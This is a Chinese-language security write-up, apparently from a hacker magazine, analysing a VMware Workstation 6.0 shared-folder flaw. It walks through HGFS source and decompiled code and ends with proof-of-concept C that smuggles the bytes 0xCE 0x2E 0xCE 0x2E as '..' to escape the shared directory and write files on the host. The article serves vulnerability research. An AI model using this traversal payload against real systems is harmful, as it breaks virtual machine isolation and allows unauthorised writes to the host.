

```c
searchReadRep = (HgfsReplySearchRead *)replyPacket;
if (searchReadRep->header.status != HGFS_STATUS_SUCCESS) {
    Warning("Error in getting share name.\n");
    goto out;
}
/* We got the share name. */
shareName = &searchReadRep->fileName;
out:
return shareName;
```

这是一个读取共享文件的 API，从流程可以看出，它首先构造了一个 HgfsRequestSearchRead 结构，填充部分参数后传入一个叫做 HgfsBd_Dispatch 的 API，而这里的 HgfsBd_Dispatch 又通过叫做 RpcOut 的 API 库传递给 Host。

虽然这是一个未完成的文档，但我们还是可以发现其 API 的调用方法。完成的代码部分是枚举所有共享文件夹的调用，我们选择一个函数来看看。

```c
static HgfsFileName *
HgfsClient_Read(HgfsHandle rootHandle,
                int offset)
{
    HgfsFileName *shareName = NULL;
    HgfsRequestSearchRead *searchReadReq;
    HgfsReplySearchRead *searchReadRep;
    int err;
    char const *replyPacket;
    size_t packetSize;

    /* Create searchRead and send it. */
    searchReadReq = (HgfsRequestSearchRead *)gPacketBuffer;
    memset(searchReadReq, 0, sizeof *searchReadReq);
    searchReadReq->header.id = 0;
    searchReadReq->header.op = HGFS_OP_SEARCH_READ;
    searchReadReq->search = rootHandle;
    searchReadReq->offset = offset;

    packetSize = sizeof *searchReadReq;
    err = HgfsBd_Dispatch(&gChannel, (char *)searchReadReq,
                          &packetSize, &replyPacket);
    if (err != 0) {
        Warning("Failed to send search read request.\n");
        goto out;
    }

    /* replyPacket has our share name. */
}
```

```c
int
HgfsBd_Dispatch(RpcOut *out,
                char *packetIn,
                size_t *packetSize,
                char const **packetOut)
{
    Bool success;
    char const *reply;
    size_t replyLen;

    ASSERT(out);
    ASSERT(packetIn);
    ASSERT(packetSize);
    ASSERT(packetOut);

    success = RpcOut_send(out,
                          packetIn - HGFS_CLIENT_CMD_LEN,
                          *packetSize + HGFS_CLIENT_CMD_LEN,
                          &reply, &replyLen);
    if (success == FALSE) {
        Debug("HgfsBd_Dispatch: RpcOut_send returned failure\n");
        return -1;
    }

    ASSERT(replyLen <= HGFS_PACKET_MAX);
    *packetOut = reply;
    *packetSize = replyLen;
    return 0;
}
```

RpcOut_Send 又通过 Message_Send 和 Message_Receive 这两个 API 把消息通过 HdBackDoor 传递给 Host（关于 HdBackDoor 的 Host 端跟踪可见《Anti Anti VMware》一文）。由于代码较长，我就不列出每一个函数的代码了。虽然这套代码并没有提供 Host 端代码，仅提供了一个叫做 HgfsServer 的代码，并且这个代码还是 Linux 下的，但我们还是可以通过这个代码初步看出一些流程来。在 HgfsServer.c 中，我们找到了处理 Virtual Machine 发到 Host 的 Shared_Folder 请求的一个 Handlers 表。

```c
const handlers[] = {
  { HgfsServerOpen, sizeof(HgfsRequestOpen) },
  { HgfsServerRead, sizeof(HgfsRequestRead) },
  { HgfsServerWrite, sizeof(HgfsRequestWrite) },
  { HgfsServerClose, sizeof(HgfsRequestClose) },
  { HgfsServerSearchOpen, sizeof(HgfsRequestSearchOpen) },
  { HgfsServerSearchRead, sizeof(HgfsRequestSearchRead) },
  { HgfsServerSearchClose, sizeof(HgfsRequestSearchClose) },
  { HgfsServerGetattr, sizeof(HgfsRequestGetattr) },
  { HgfsServerSetattr, sizeof(HgfsRequestSetattr) },
  ...
};
```

联想一下前面提到的分发表，而这里正好也是 24 组，且调用参数个数也相符合，代码如下。

```asm
0054D682 | 57 push edi
0054D683 | 56 push esi
0054D684 | 51 push ecx
```

```asm
0054D685 | FF14C5 A03B7700 call dword ptr ds:[eax*8+773BA0]
```

正好是 3 个参数！进一步跟踪会发现其参数内容也是符合定义的，因此可以断定这里应该就是处理 Shared_Folder 的地方。我们再找到 HgfsServerOpen 所在的源文件，位于 open-vm-tools-2008.02.13-77928\lib\hgfsServer\hgfsServerLinux.c 下。

```c
HgfsInternalStatus
HgfsServerOpen(char const *packetIn,   // IN: incoming packet
               char *packetOut,        // OUT: outgoing packet
               size_t *packetSize);    // IN/OUT: size of packet
```

从这里我们可以看到关于函数的定义，其后我们看详细代码。

```c
{
  HgfsNameStatus nameStatus;
  HgfsInternalStatus status;
  int newFd = -1;
  HgfsLocalId localId;
  HgfsFileOpenInfo openInfo;
  char *localName = NULL;
  HgfsServerLock serverLock = HGFS_LOCK_NONE;

  ASSERT(packetSize);
  if (!HgfsUnpackOpenRequest(packetIn, *packetSize, &openInfo)) {
    status = EPROTO;
    goto exit;
  }

  if (!(openInfo.mask & HGFS_OPEN_VALID_MODE)) {
    LOG(4, ("HgfsServerOpen: filename or mode not provided\n"));
    status = EINVAL;
    goto exit;
  }

  nameStatus = HgfsServerGetAccess(openInfo.cpName,
                                   openInfo.cpNameSize,
                                   openInfo.mode,
                                   &localName,
                                   NULL);
  if (nameStatus != HGFS_NAME_STATUS_COMPLETE) {
    LOG(4, ("HgfsServerOpen: access check failed\n"));
    status = HgfsConvertFromNameStatus(nameStatus);
    goto exit;
  }

  ASSERT(localName);
  openInfo.outName = localName;
}
```

```c
LOG(4, ("HgfsServerOpen: opening \"%s\", mode %u, flags %u, perms %u%u%u%u\n", openInfo.utf8Name,
      (openInfo.mask & HGFS_OPEN_VALID_MODE) ? openInfo.mode : 0,
      (openInfo.mask & HGFS_OPEN_VALID_FLAGS) ? openInfo.flags : 0,
      (openInfo.mask & HGFS_OPEN_VALID_SPECIAL_PERMS) ? openInfo.specialPerms : 0,
      (openInfo.mask & HGFS_OPEN_VALID_OWNER_PERMS) ? openInfo.ownerPerms : 0,
      (openInfo.mask & HGFS_OPEN_VALID_GROUP_PERMS) ? openInfo.groupPerms : 0,
      (openInfo.mask & HGFS_OPEN_VALID_OTHER_PERMS) ? openInfo.otherPerms : 0));

if (HgfsFileHasServerLock(localName, &serverLock, &newFd)) {
   LOG(4, ("HgfsServerOpen: Client tried to open new handle for oplocked file %s\n", localName));
   status = EBUSY;
   goto exit;
}

/* See if the name is valid, and if so add it and return the handle. */
status = HgfsValidateOpen(&openInfo, &localId, &newFd);
if (status == 0) {
   ASSERT(newFd >= 0);
   if (!HgfsCreateAndCacheFileNode(&openInfo, &localId, newFd, FALSE)) {
      status = HGFS_INTERNAL_STATUS_ERROR;
      goto exit;
   }
}

status = HgfsPackOpenReply(&openInfo, packetOut, packetSize) ? 0 : EPROTO;

exit:
free(localName);
return status;
```

GetComponentGeneric 检查文件名的合法性中，值得注意的一点是：

```c
len = CPName_GetComponentGeneric(cpName, inEnd, "", &next);
if (len < 0) {
   LOG(4, ("HgfsServerGetAccess: get first component failed\n"));
   return HGFS_NAME_STATUS_FAILURE;
}
```

这里不能够失败，且在 CPName_GetComponentGeneric 函数中，我们会很明显地发现如下的代码，也就是说它会搜索“/”“\\”“.”字符，这个后面我们还要说。

```c
/* Make sure the input buffer does not contain any illegal characters.
 * In particular, we want to make sure that there are no path separator
 * characters in the name. Since the cross-platform name format by definition
 * does not use path separators, this is an error condition and is likely
 * the sign of an attack.
 */
if (strchr(illegal, *walk) != NULL) {
   Log("CPName_GetComponentGeneric: error: Illegal char \\%c found in input\n", *walk);
   return -1;
}
```

而后在 HgfsServerGetAccess 函数中继续调用 HgfsServerPolicy_GetSharePath 获取共享文件夹。

```c
HgfsNameStatus
HgfsServerPolicy_GetSharePath(char const *nameIn,
                              size_t nameInLen,
                              HgfsOpenMode mode,
                              size_t *sharePathLen,
                              char const **sharePath)
{
   HgfsSharedFolder *share;
   ASSERT(nameIn);
   ASSERT(sharePathLen);
   ASSERT(sharePath);

   share = HgfsServerPolicyGetShare(&myState, nameIn, nameInLen);
   if (!share) {
      LOG(4, ("HgfsServerPolicy_GetSharePath: No matching share name\n"));
      return HGFS_NAME_STATUS_DOES_NOT_EXIST;
   }

   switch (HGFS_OPEN_MODE_ACCMODE(mode)) {
   case HGFS_OPEN_MODE_READ_ONLY:
      ...
   }
}
```

首先函数 HgfsUnpackOpenRequest 把传来的序列化后的消息格式转换为本地格式，而后通过 HgfsServerGetAccess 检查共享文件夹权限。在 HgfsServerGetAccess 调用 CPName_…```c
if (!share->readAccess) {
    LOG(4, ("HgfsServerPolicy_GetSharePath: Read access denied\n"));
    return HGFS_NAME_STATUS_ACCESS_DENIED;
}
break;

case HGFS_OPEN_MODE_WRITE_ONLY:
    if (!share->writeAccess) {
        LOG(4, ("HgfsServerPolicy_GetSharePath: Write access denied\n"));
        return HGFS_NAME_STATUS_ACCESS_DENIED;
    }
    break;

case HGFS_OPEN_MODE_READ_WRITE:
    if (!share->readAccess || !share->writeAccess) {
        LOG(4, ("HgfsServerPolicy_GetSharePath: Read/write access denied\n"));
        return HGFS_NAME_STATUS_ACCESS_DENIED;
    }
    break;

default:
    LOG(0, ("HgfsServerPolicy_GetSharePath: Invalid mode\n"));
    return HGFS_NAME_STATUS_FAILURE;
}

*sharePathLen = share->pathLen;
*sharePath = share->path;
return HGFS_NAME_STATUS_COMPLETE;
```

```c
for (l = state->shares.next; l != &state->shares; l = l->next) {
    HgfsSharedFolder *share;
    char *tempName;

    if (!(tempName = (char *)malloc(nameInLen + 1))) {
        LOG(4, ("HgfsServerPolicyGetShare: couldn't allocate tempName\n"));
        return NULL;
    }

    memcpy(tempName, nameIn, nameInLen);
    tempName[nameInLen] = 0;
    share = DblLnkLst_Container(l, HgfsSharedFolder, links);
    ASSERT(share);

    if (nameInLen == share->nameLen &&
#ifdef _WIN32
        !strnicmp(tempName, share->name, nameInLen)) {
#else
        !strncasecmp(tempName, share->name, nameInLen)) {
#endif
        free(tempName);
        return share;
    }

    free(tempName);
}

return NULL;
```

它调用了 HgfsServerPolicyGetShare 来判断当前要访问的共享文件夹是否有效。

这段代码首先会做完整性比较，而后使用 strnicmp 比较路径的前面是否与共享文件夹的目录名匹配。因此，要读写共享文件夹的前提就是路径名字字符必须与允许的目录名相符合，反之则不会成功。而后通过 CPName_ConvertFromRoot 将传入的目录名转换为 Host 上的真实目录名，当然，这其中还涉及到了 UTF8 的字符转换问题，这个后面还要讲，这里暂时略过。

之后在 HgfsServerOpen 函数中还将继续使用 HgfsFileHasServerLock 来检查是否已经打开或者锁定等操作，如果这些检测都通过了，就要正式开始打开文件或者目录的操作。

```c
static HgfsSharedFolder *
HgfsServerPolicyGetShare(HgfsServerPolicyState *state,   // IN:
                         char const *nameIn,             // IN: Name to check
                         size_t nameInLen)               // IN: Length of nameIn
{
    DblLnkLst_Links *l;
    ASSERT(state);
    ASSERT(nameIn);

    for (l = state->shares.next; l != &state->shares; l = l->next) {
        HgfsSharedFolder *share;
        share = DblLnkLst_Container(l, HgfsSharedFolder, links);
        ASSERT(share);
        if (nameInLen == share->nameLen &&
            !memcmp(nameIn, share->name, nameInLen)) {
            return share;
        }
    }
}
```

```c
/* See if the name is valid, and if so add it and return the handle. */
status = HgfsValidateOpen(&openInfo, &localId, &newFd);
```

它是利用下面的这个 Linux 函数来打开文件并返回句柄的，这和 Windows 下是不一样的，但基本流程我们应该知道。

```c
/* Try to open the file with the requested mode, flags and permissions. */
fd = open(openInfo->utf8Name,
          openMode | openFlags,
          openPerms);
```

```text
.rdata:00768C48 arrSharedFolderDispatch dd offset HgfsServerOpen; pFunc
（以上地址为 6.0.0 版）
```

当 Virtual Machine 的 Shared_Folder 请求传到 Host 上的时候，首先执行的是验证参数的合法性，而后校验请求的文件或者文件夹是否已经共享，且请求的权限是否允许，即如果设置为只读，那么显然请求写入操作就会失败，最后检测文件是否已经在服务器端打开，如果没有则打开文件并缓存到 Host 的节点数据中，如果已经打开了则直接返回错误的结果。而本文要说明的漏洞就在下面的代码处。

根据 Linux 下的代码，我们可以初步推测出 Windows 平台上面的一些函数定义，反编译后如下。

```c
signed int __cdecl HgfsServerOpen(int a1, int a2, int a3)
{
    int v3; // ebx@1
    signed int v4; // esi@3
    ...
    if (HgfsUnpackOpenRequest(a1, v8, (int)&v12) && v13 & 1)
    {
        if (HgfsServerGetAccess(lpMultiByteStr, v15, v16, (int)&v9, 0))
            v5 = HgfsConvertFromNameStatus();
        else
        {
            ...
            v6 = HgfsValidateOpen((int)&v12, (int)&v18, (int)&v19);
            ...
        }
    }
}
```

```c
len = CPName_GetComponentGeneric(cpName, inEnd, "", &next);
if (len < 0) {
    LOG(4, ("HgfsServerGetAccess: get first component failed\n"));
    return HGFS_NAME_STATUS_FAILURE;
}
/* See if we are dealing with the base of the namespace */
if (!len) {
    return HGFS_NAME_STATUS_INCOMPLETE_BASE;
}
/* VMDB stores the ANSI name, so convert from UTF8 before lookup */
if (!CodeSet_Utf8ToCurrent(cpName, len, &ansiName, &ansiLen)) ...
```

也就是 CodeSet_Utf8ToCurrent 的转换上。CPName_GetComponentGeneric 虽然已经检测了诸如“..”、“.”这类字符，使得直接通过“\..\”方法访问上层目录行不通了，但我们知道，在 UTF8 与 ANSI 之间互相转换的时候其映射不是唯一的，从而导致问题产生。下面我们来看看 Windows 上的分析。

通过前面介绍的方法，找到处理 Shared_Folder 事件的分发表的地方，得到如下的对应函数。

```asm
010 push edi
014 push esi
018 push ecx
01C call ds:arrSharedFolderDispatch.pFunc[eax*8]
```

```c
goto LABEL_13;
}
v5 = (-((unsigned __int8)HgfsPackOpenReply(&v12, a2, v3) != 0) & 0xFFFFF940) + 1728;
}
v4 = v5;
goto LABEL_13;
}
v4 = 1728;
LABEL_13:
free(v9);
return v4;
}
```

```c
v6 = 0;
v7 = dword_78729C[v6];
if (v5 & 0x80) {
  v11 = *(_DWORD *)(v3 + 40);
  v15 = *(_DWORD *)(v3 + 36);
  v13 = v11;
} else {
  v15 = 0;
  v13 = 0;
}
if (v5 & 0x200)
  v8 = *(_DWORD *)(v3 + 48);
else
  v8 = 7;
v9 = v12;
if (v12 & 0xFFEFFFFF)
  v8 |= 1u;
if (v5 & 0x400)
  v12 = *(_DWORD *)(v3 + 52);
else
  v12 = 0;
result = sub_5C8D10((LPCSTR *)(v3 + 68), v7, v9, v8, *(_BYTE *)(v3 + 16) & 4, (int)&v12, a3);
if (!result) {
  *(_DWORD *)(v3 + 56) = v12;
  result = sub_5C7D30();
}
return result;
}
```

可以看得出来这和 Linux 下的是一样的。我们关键要看 HgfsValidateOpen 这个函数，其代码如下。

```c
int __usercall HgfsValidateOpen<eax>(int a1<eax>, int a2, int a3)
{
  int v3;
  int result;
  int v5;
  unsigned int v6;
  DWORD v7;
  DWORD v8;
  int v9;
  char v10;
  int v11;
  int v12;
  int v13;
  signed int v14;
  int v15;

  v3 = a1;
  if (!HgfsServerGetOpenFlags(a1, (int)&v12))
    return 1728;
  v5 = *(_DWORD *)(v3 + 8);
  v13 = *(_DWORD *)(v3 + 12);
  if ((v5 & 8) && ((v10 = (*(_BYTE *)(v3 + 25) & 2) == 0, v14 = 1, !v10)))
    v14 = 0;
  if (v5 & 0x40)
    HgfsServerGetOpenMode(0, (int)&v14, *(_DWORD *)(v3 + 28));
  if (v5 & 2) {
    v6 = *(_DWORD *)(v3 + 20);
    if ((signed int)v6 < 0 || v6 >= 5) {
      sub_405680("HgfsServerGetOpenFlags: Invalid HgfsOpenFlags\n");
      return 1728;
    }
  }
  else {
    // ...
  }
}
```

继续向下看 sub_5C8D10 处。

```c
Bool __cdecl CodeSet_CurrentToUtf8(const char *bufIn, size_t sizeIn, char **bufOut, size_t *sizeOut)
{
  char v5;
  char v6;
  sub_454BD0((int)&v6);
  v5 = sub_462DE0(0xFD9u, bufIn, sizeIn);
  return sub_462B90(v5, (int)sizeOut, (int)&v6, (int)bufOut);
}
```

我们再注意看 sub_462DE0 这个函数，其代码如下。

```c
static Bool CodeSetGenericToUtf16le(UINT codeIn, char const *bufIn, size_t sizeIn, DynBuf *db)
{
  // ...
}
```

## 自发漏洞

### FIRST EXPLOIT

\1栏目编辑\yff\yff@hacker.com.cn

```c
/*Undocumented: calling MultiByteToWideChar() with sizeIn == 0 returns 0 with GetLastError() set to ERROR_INVALID_PARAMETER. isn't this API robust? --hpreg*/
if (sizeIn) {
    size_t initialSize;
    DWORD flags = GetInvalidCharsFlag();
    Bool invalidCharsCheck = ((flags & MB_ERR_INVALID_CHARS) != 0);
    initialSize = DynBuf_GetSize(db);
    for (;;) {
        int result;
        int resultReverse;
        DWORD error = ERROR_SUCCESS;
        if (DynBuf_Enlarge(db, sizeof(wchar_t)) == FALSE) {
            return FALSE;
        }

        /* Must fail if bufIn has any invalid characters.
         So MB_ERR_INVALID_CHARS added, otherwise can lead
         to security issues see bug 154114. */
        result = MultiByteToWideChar(codeIn, flags, bufIn,
            sizeIn, (wchar_t *)((char *)DynBuf_Get(db) + initialSize),
            (DynBuf_GetAllocatedSize(db) - initialSize) / sizeof(wchar_t));
        if (0 == result) {
            error = GetLastError();
            // may be ERROR_NO_UNICODE_TRANSLATION
        }
        if (invalidCharsCheck) {
            resultReverse = WideCharToMultiByte(codeIn, 0,
                (wchar_t *)((char *)DynBuf_Get(db) + initialSize), result,
                NULL, 0, 0, 0);
        }

        if (result > 0 && (!invalidCharsCheck || (sizeIn == resultReverse))) {
            DynBuf_SetSize(db, initialSize + result * sizeof(wchar_t));
            break;
        }

        if (result > 0 && (invalidCharsCheck && sizeIn != resultReverse)) {
            return FALSE;
        }

        ASSERT(result == 0);
        if (error != ERROR_INSUFFICIENT_BUFFER) {
            return FALSE;
        }
        /* Need a larger buffer --hpreg */
    }
    return TRUE;
}
```

关键文件不在这里，而是操作系统对 MultiByteToWideChar 的处理。也就是说这里在转换为 UTF8 的时候可能被构造的特定字符串解析出诸如“....”的字符，一旦如此就可能绕过 Host 的 shared_folder 的目录限制从而访问上层甚至根目录。

```c
/*Must fail if bufIn has any invalid characters.
So MB_ERR_INVALID_CHARS added, otherwise can lead
to security issues see bug 154114.*/
result = MultiByteToWideChar(codeIn, flags, bufIn,
sizeIn, (wchar_t *)((char *)DynBuf_Get(db) + initialSize),
(DynBuf_GetAllocatedSize(db) - initialSize) / sizeof(wchar_t));
```

而下面的代码则演示了哪些字符会被操作系统错误地转换为我们需要的字符。

```c
unsigned int i, ans;
unsigned char buf[200];
for (i = 1;; i++) {
    memset(buf, 0, 200);
    ans = MultiByteToWideChar(CP_UTF8, 8, (LPSTR)&i, 4, (LPWSTR)buf, 100);
    // 8 = MB_ERR_INVALID_CHARS
    if (ans && (buf[0] == 1) && (buf[1] == 0) && ((i & 0xff) == 1))
        printf("%d %04x: %02x %02x %02x %02x\n", ans, i,
            buf[0], buf[1], buf[2], buf[3]);
}
```

那么我们如何利用呢？基于上面的分析，我写了一段示例代码来说明这个问题。

```c
char fileName[1024] = "Debug\\%s.txt";
unsigned char data[] = {0xCE, 0x2E, 0xCE, 0x2E, 0x0};
int i = sprintf(fileName, "Debug\\%s\\a.txt", data);
int len = i;
char *p = fileName;
while (*p != 0) {
    if (*p == '\\') {
        *p = 0;
    }
    p++;
}
// int len = HgfsUnescapeBuffer(fileName, strlen(fileName));
memcpy(reqopen->fileName.name, fileName, len);
reqopen->fileName.length = len;
reqopen->header.id = NULL;
reqopen->header.op = HGFS_OP_OPEN;
reqopen->mode = HgfsOpenMode::HGFS_OPEN_MODE_READ_WRITE;
reqopen->flags = HgfsOpenFlags::HGFS_OPEN_CREATE;
```

虽然下面的代码已经标示出来了，如果没有 MB_ERR_INVALID_CHARS 可能导致 security issues，但关键并不在这里。

```c
reqopen->permissions = NULL;
HgfsReplyOpen *replyopen;
int err;
size_t packetsize;
packetsize = sizeof(HgfsRequestOpen) + reqopen->fileName.length + 1;
err = HgfsBd_Dispatch(gChannel, gPacketBuffer, &packetsize, (const char **)&replyopen);
```

以上代码演示了如何构造一个特定的字符串以绕过检测，从而在 Debug 的上层目录中创建一个空文件的例子。其中 Debug 是 Host 上已经设置为可以读写的文件夹，通过构造非法的 UTF-8 字符串 `unsigned char data[] = {0xCE,0x2E,0xCE,0x2E,0x0}` 来达到欺骗 Host 逻辑判断的目的。因此，当我们设定 `int i = sprintf(fileName, "Debug\\%s\\a.txt", data);` 时，由 Host 的操作系统转换函数 MultiByteToWideChar 转换以后就应该是读写 `F:\Debug\..\a.txt`。其中“F:”是我们的 Debug 共享目录所在的磁盘（注意，VMware 采用跨平台路径表示方法，将字符“/”“\”等用 NULL 代替，因此我们操作之前要将 Windows 的“\”还原成 NULL），而中间的 0xCE、0x2E、0xCE、0x2E 就被转换为了字符串“..”。显然这是一个表示上层目录的特殊符号，熟悉 DOS 的朋友一定不会陌生，而 `F:\Debug\..\a.txt` 就等效于 `F:\a.txt`，而“F:”盘的根目录我们没有共享，但却被虚拟机绕过了限制。其危险性自然不由分说，因为一旦在磁盘根目录上写入 AutoRun 之类的文件，其后果将不可设想，整个虚拟机的作用就会完全丧失。此漏洞目前唯一也是官方的解决方法是关闭 shared_folder 功能。

以上就是我对 VMware Workstation for Windows 6.00 & 6.02 的 shared_folder 文件共享导致虚拟机“不虚拟”的漏洞做的一个简单分析。对于这个所谓的 Critical 漏洞，我谈谈我的理解。

首先我们要承认这是一个 Bug，但是需要说明的几点是，它并不是一个 Remote_Shell 类漏洞，充其量只是一个本地漏洞，无论对于入侵还是病毒都没有太多的价值，尤其是前者。当然，对于蓄意搞破坏的病毒也许可能会检测是否在运行 VMware，然后给 Host 开一个小玩笑。其次，这个漏洞利用是有难度的，需要 Host 打开 shared_folder 功能，虽然这已经默认在 6.0 版中打开了，但如果没有任何共享路径的话，这个漏洞也是无法利用的；并且如果要对 Host 造成危害，就必须要有写入文件夹的权限。

如果没有任何共享路径的话，这个漏洞也是无法利用的，并且如果要对 Host 造成危害就必须要有写入文件夹的权限，这还不算。由于无法切换磁盘卷标，如果共享文件夹所在的磁盘是 `F:\`，那么就无法写入到 `C:` 中，这样要对 Host 造成危害的可能性就进一步降低了。最后需要说明的一点是，个人认为出现这个漏洞不应该把责任完全怪在 VMware 身上。我们要注意一点，从给出的代码来看，VMware 已经注意到了其 security issues，因此已经加上了 MB_ERR_INVALID_CHARS 这个标志，此后转换出来的内容就不属于 VMware 可控制的范围了，因为它调用的是一个平台依赖性很强的 API。换句话说，`unsigned char data[] = {0xCE,0x2E,0xCE,0x2E,0x0}` 是非法字符串，不符合 Unicode 规范，因此操作系统应该直接报错，而不应该将 0xCE 与 0x2E 合并。所以我主观地认为其责任在 Windows 系统而不是 VMware。

另外值得高兴的也是需要注意的一点是，在 Windows Vista 中已经不存在这个漏洞了，因为下面的代码如果在 Windows Vista 中执行的话，就直接 failed 了；而在 Windows XP SP2 上则会转换为“..”字符串。我们甚至可以推断基于 Vista 的 Windows Server 2008 以及 Windows XP SP3 都会修复这个 API。也由此可以看得出来，其漏洞是否发生来源于 Host 所在的操作系统，而并非完全来自 VMware 本身。

```c
unsigned int i, ans;
unsigned char buf[200];
unsigned char data[] = {0xCE,0x2E,0xCE,0x2E,0x0}; // '..'
ans = MultiByteToWideChar(CP_UTF8, 8, (LPCSTR)data, sizeof(data), (LPWSTR)buf, sizeof(buf));
if (ans) {
    printf("OutBuffer == %S\r\n", buf);
} else {
    printf("Conversion failed!");
}







